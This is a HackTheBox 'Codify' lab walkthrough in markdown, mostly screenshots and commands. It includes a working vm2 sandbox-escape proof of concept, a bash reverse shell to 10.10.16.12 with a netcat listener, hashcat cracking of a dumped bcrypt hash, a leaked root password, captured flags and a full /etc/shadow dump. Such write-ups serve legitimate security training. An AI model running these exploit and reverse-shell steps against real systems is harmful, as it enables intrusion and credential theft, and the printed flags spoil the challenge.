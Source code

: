 ### 06-Apr-24-Sat

[Codify | HackTheBox](https://app.hackthebox.com/machines/Codify)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2a62f921-2f8c-4617-95c8-1a2f4e3481d2)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1b31a4a9-b243-4dca-894a-b770e219e958)

*Walkthrough* - https://youtu.be/wH1Lp-sEVv4 (https://www.youtube.com/@ippsec)

```
sudo nmap -sC -sV -oA nmap 10.129.213.88
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/bd6b3705-a0a6-430e-b114-bd9b42b1223b)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/73bcec52-ccbe-42d0-a2e9-2f96f420fd9d)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1b629033-6cca-4906-80a9-1e65742fec59)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/919b6373-0ac7-4c35-9779-aebcc6b38cb8)

`codify.htb`

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/43939323-9e03-4dba-acd8-52a03c1c9456)

http://codify.htb/

http://codify.htb/editor

http://codify.htb/limitations

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b2902478-40d0-40ac-8767-a6f8143245fd)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9559fdfe-a0d4-48d7-affa-305826decf9b)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a3f7394d-6195-4e45-bf1c-11fc6701e2d3)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/fa2ae3d9-ce6a-4521-abdd-f7c671f27e02)

https://github.com/patriksimek/vm2/releases/tag/3.9.16

https://github.com/patriksimek/vm2/security

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/5c9d5151-a941-4d42-b3d7-d3116a7c1f1b)

https://github.com/patriksimek/vm2/security/advisories/GHSA-whpj-8f3w-67p5

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1a6f848d-7409-43a8-81f7-9551a67961b3)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b2754e25-73d7-4a77-9994-c47412a706c1)

https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b8684266-253e-441d-b540-5b38913b49d0)

### POC

```
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2ce92345-3f77-4ff7-99f7-ee054d21a9b0)

https://www.revshells.com/

```
"bash -c 'sh -i >& /dev/tcp/10.10.16.12/443 0>&1'"
```

```
sudo nc -lvnp 443
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b5cec825-df53-4607-91de-4cd2cb9cb35a)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/48f585ef-793b-402b-aa48-36144106661e)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/01a4c184-403e-4df8-8040-2d4fa7058d15)

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
stty raw -echo;fg
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/e5f076e7-0956-44ca-9257-e85c52d1704a)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/99b4f478-3b54-4751-9b2b-9a9b482eb213)

```
echo $TERM
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a38e5ade-416c-4043-aca4-adb574fd4dae)

```
ss -lntp
```

```
pm2 list
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1cdc2178-2d4d-4216-82fa-1d89068e0027)

```
ps -ef --forest |less -S
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/e1a20f76-1563-44c8-a6c2-1c461d20aa71)

```
stty -a
```

```
stty rows 28 cols 110
```

```
sqlite3 tickets.db .dump
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/938b8cbe-c7d8-44a7-b588-5524938a2c92)

```
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
    );
INSERT INTO users VALUES(3,'joshua','$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2');
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT);
INSERT INTO tickets VALUES(1,'Tom Hanks','Need networking modules','I think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!','open');
INSERT INTO tickets VALUES(2,'Joe Williams','Local setup?','I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.','open');
DELETE FROM sqlite_sequence;
INSERT INTO sqlite_sequence VALUES('users',3);
INSERT INTO sqlite_sequence VALUES('tickets',5);
COMMIT;
```

```
hashcat -m 3200 joshua.hash /usr/share/wordlists/rockyou.txt
```

```
spongebob1
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1e811bf8-e7aa-4025-bde9-bb6d0308ff9d)

```
ssh joshua@codify.htb
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/f29aebbf-2ef9-46c4-9315-7a3c1f002738)

```
8d905687c899e53de3cdf0615d245805
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/0fa54d7c-ca5f-4a17-b1ec-52eb75722cc4)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/06e2f720-ae7e-40d1-8518-4a3b593fc9a9)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/e9b6e6c3-ecc7-46ee-9a06-952f1c92b6b4)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/e9258bac-eed8-4115-b5e9-d658f9062a1b)

```
sudo /opt/scripts/mysql-backup.sh
```

https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1bbeb2bb-87d5-4c4b-abcf-41aa9d574e4c)

```
kljh12k3jhaskjh12kjh3
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ac195ebd-d305-4b6a-8ade-02fec02c2128)

```
31104637744d9ba1f69c210987eab24f
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ab916460-edca-4e4a-90e4-68e2c544912d)

```
root@codify:~# cat /etc/shadow
root:$y$j9T$BBviiq1eNRUe8DLwu.mU61$WSfwzensYi9zIITP5VaFmA6wmTOza/5hbDf0jvo1ZS0:19507:0:99999:7:::
daemon:*:19213:0:99999:7:::
bin:*:19213:0:99999:7:::
sys:*:19213:0:99999:7:::
sync:*:19213:0:99999:7:::
games:*:19213:0:99999:7:::
man:*:19213:0:99999:7:::
lp:*:19213:0:99999:7:::
mail:*:19213:0:99999:7:::
news:*:19213:0:99999:7:::
uucp:*:19213:0:99999:7:::
proxy:*:19213:0:99999:7:::
www-data:*:19213:0:99999:7:::
backup:*:19213:0:99999:7:::
list:*:19213:0:99999:7:::
irc:*:19213:0:99999:7:::
gnats:*:19213:0:99999:7:::
nobody:*:19213:0:99999:7:::
_apt:*:19213:0:99999:7:::
systemd-network:*:19213:0:99999:7:::
systemd-resolve:*:19213:0:99999:7:::
messagebus:*:19213:0:99999:7:::
systemd-timesync:*:19213:0:99999:7:::
pollinate:*:19213:0:99999:7:::
sshd:*:19213:0:99999:7:::
syslog:*:19213:0:99999:7:::
uuidd:*:19213:0:99999:7:::
tcpdump:*:19213:0:99999:7:::
tss:*:19213:0:99999:7:::
landscape:*:19213:0:99999:7:::
usbmux:*:19374:0:99999:7:::
lxd:!:19374::::::
dnsmasq:*:19459:0:99999:7:::
joshua:$y$j9T$u5RmR.i3n0eWNlz3TzNwW1$70opNAIyjWmEs5kR5suhb9xTavS294cdqpt3jB2T.H6:19507:0:99999:7:::
svc:$y$j9T$g22oO8nqTahqa94dBOVRu1$2xgi2cpPO/EWoP4EMFxhhLBwpCWASWaZTap9YtxqkV.:19612:0:99999:7:::
fwupd-refresh:*:19626:0:99999:7:::
_laurel:!:19626::::::
root@codify:~# 
```

```
root:$y$j9T$BBviiq1eNRUe8DLwu.mU61$WSfwzensYi9zIITP5VaFmA6wmTOza/5hbDf0jvo1ZS0:19507:0:99999:7:::
joshua:$y$j9T$u5RmR.i3n0eWNlz3TzNwW1$70opNAIyjWmEs5kR5suhb9xTavS294cdqpt3jB2T.H6:19507:0:99999:7:::
svc:$y$j9T$g22oO8nqTahqa94dBOVRu1$2xgi2cpPO/EWoP4EMFxhhLBwpCWASWaZTap9YtxqkV.:19612:0:99999:7:::
```
